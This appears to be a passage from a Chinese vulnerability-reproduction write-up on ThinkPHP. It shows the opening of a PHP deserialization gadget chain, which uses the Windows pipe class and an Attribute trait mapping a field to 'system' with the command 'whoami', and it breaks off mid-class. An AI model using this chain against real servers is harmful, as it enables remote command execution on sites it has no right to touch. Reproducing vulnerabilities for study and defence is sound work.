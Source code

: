 [![](assets/1701606544-271c0dc0fde43915d86eb8e53d6d5d8a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122173718-ba918310-891a-1.png)

## 漏洞复现：

```plain
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = [$files];
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
    }

    trait Attribute
    {
        private $data;
        private $withAttr = ["lin" => "system"];

        public function get()
        {
            $this->data = ["lin" => "whoami"];
        }
    }
}

namespace think {
    abstract class Model
```